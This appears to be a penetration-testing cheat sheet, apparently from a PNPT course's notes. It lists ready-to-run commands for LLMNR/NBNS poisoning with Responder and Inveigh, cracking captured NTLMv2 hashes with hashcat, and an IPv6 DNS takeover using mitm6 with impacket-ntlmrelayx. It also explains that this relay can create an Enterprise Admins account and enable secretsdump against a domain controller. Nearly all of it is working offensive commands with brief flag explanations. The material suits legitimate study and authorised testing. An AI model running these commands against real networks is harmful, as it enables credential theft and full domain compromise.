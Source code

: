 ### Responder 
Standard (let run in background)
```bash
sudo responder -I eth0 -dwf
```
Need NTLMv1 (**not opsec friendly**)
```bash
sudo responder -I eth0 -dFP
```
Locate hashes under `/usr/share/responder/logs` and  `/usr/share/responder/`
```bash
sqlitebrowser /usr/share/responder/Responder.db
```
Crack
```bash
hashcat -m 5600 adm.ntlmv2 ~/rockyou.txt
```

| Flag           | Description                                                                                                                                                                                                                                                                                                                     |
| -------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `-A`           | Act as a fly on the wall and listen to the traffic                                                                                                                                                                                                                                                                              |
| `-w`           | Rogue WPAD server. This can be highly effective, especially in large organizations, because it will capture all HTTP requests by any users that launch Internet Explorer if the browser has [Auto-detect settings](https://docs.microsoft.com/en-us/internet-explorer/ie11-deploy-guide/auto-detect-settings-for-ie11) enabled. |
| `-f`           | Fingerprint machine                                                                                                                                                                                                                                                                                                             |
| `-F`      `-P` | Force orce NTLM or Basic authentication and force proxy authentication, but may cause a login prompt, so they should be used sparingly                                                                                                                                                                                          |
| `-d`           | Enable answers for DHCP broadcast requests. This option will inject a WPAD server in the DHCP response.                                                                                                                                                                                                                         |
### [Inveigh](https://github.com/Kevin-Robertson/Inveigh)
Inveigh can listen to IPv4 and IPv6 and several other protocols, including `LLMNR`, DNS, `mDNS`, NBNS, `DHCPv6`, ICMPv6, `HTTP`, HTTPS, `SMB`, LDAP, `WebDAV`, and Proxy Auth

Powershell based Inveigh - LLMNR and NBNS Spoofing
```powershell
Import-Module .\Inveigh.ps1
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

C# Inveigh (InveighZero)
```powershell
.\Inveigh.exe
Press ESC to enter/exit interactive console
HELP
GET NTLMV2UNIQUE
GET NTLMV2USERNAMES
```
The options with a `[+]` are default and enabled by default and the ones with a `[ ]` before them are disabled.

### IPv6 Attacks

```bash
sudo mitm6 -i eth0 -d PNPT.local
```

```bash
impacket-ntlmrelayx -6 -t ldaps://192.168.1.129 -wh evil.PNPT.local -l lootme
```

```bash
jq -r '.[] | .attributes.sAMAccountName[0]' domain_users.json
```

Typically machines on networks run on IPv4, sometimes not even utilizing IPv6 at all but still have it enabled by default. In a network there is usually **nobody** doing DNS for IPv6

We can leverage this by replying to all DHCPv6 messages, giving them a Link-Local address and telling them that we're their default DNS server.

**MITM6** paired with **Impacket-ntlmrelayx** using **LDAP relaying,** can allow us to pull a lot of information from the Domain Controller and even create a new user account in the Enterprise Admins group when a Domain Administrator logs into the network. This can allow us to run secretsdump against the Domain Controller.